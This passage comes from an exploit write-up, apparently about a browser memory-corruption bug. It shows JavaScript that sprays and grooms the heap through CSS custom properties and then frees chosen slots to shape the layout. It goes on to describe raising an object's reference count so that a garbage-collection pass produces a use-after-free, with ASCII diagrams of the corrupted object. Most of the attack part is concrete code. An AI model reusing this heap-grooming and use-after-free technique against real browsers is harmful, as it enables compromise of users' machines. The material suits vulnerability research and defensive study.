 After that, let's force object A to be adjacent to C. Object B should be
allocated close, but not adjacent to, the others as it will be useful for
acquiring memory leaks.

```cpp
for (let i = 0; i < 50; i++) {
  for (let j = 0; j < 4; j++) {
    // spraying allocation of 2 different size spans
    // very close to 100% of attempts, the same object is allocated
    // after a different sized slot
    const CSSValName = `${i}.${j}`.padEnd(0x7fcc, 'A');
    div0.style.setProperty(`--a${i}.${j}`, CSSValName);
    const CSSValName2 = `${i}.${j}`.padEnd(0x1fcc, 'C');
    div0.style.setProperty(`--c${i}.${j}`, CSSValName2);
  }
  for (let j = 0; j < 64; j++) {
    const CSSValName = `${i}.${j}`.padEnd(0x414, 'B');
    div0.style.setProperty(`--b${i}.${j}`, CSSValName);
  }
}
```

And finally, let's clear the bucket to finish preparing our layout:

```cpp
for (let i = 10; i < 30; i++) {
  div0.style.removeProperty(`--a${i}.2`);
}
for (let i = 46; i > 20; i--) {
  div0.style.removeProperty(`--c${i}.0`);
}
gc(); await sleep(500);
```

Now, after creating the correct heap layout, we will overwrite the
`ref_count_`, trigger a free, and allocate a fully controllable data
object over the victim object, thus creating a UAF condition. 

We can abuse our conditional writing of null bytes. If you recall 
that 0xff bytes are ignored, so we can increase the `ref_count_` to 
`0xff01` and trigger the vulnerability. After this, the ref count will 
be `0xff00`, and calling `gc();` will free this object while we still 
have an active reference.

>Remember: Actually, the `ref_count_` starts with 2, so we need to
>   increase this to `0xff02`, otherwise the ref_count will reach in -1
>   and cause a crash

```
+------------+----------+-+-------------------------+
|     2      |  0x2000  |F|     "AAAAAAAAAAAA"      |
+------------+----------+-+-------------------------+
|                 "AAAAAAAAAAAA..."                 |
+---------------------------------------------------+
                          |
                          | increase `ref_count_` (+0xff00)
                          |
                          v
+------------+----------+-+-------------------------+
|   0xff02   |  0x2000  |F|     "AAAAAAAAAAAA"      |
+------------+----------+-+-------------------------+
|                 "AAAAAAAAAAAA..."                 |
+---------------------------------------------------+
                          |
                          | Trigger vuln
                          |
                          v
+------------+----------+-+-------------------------+-------------------+
```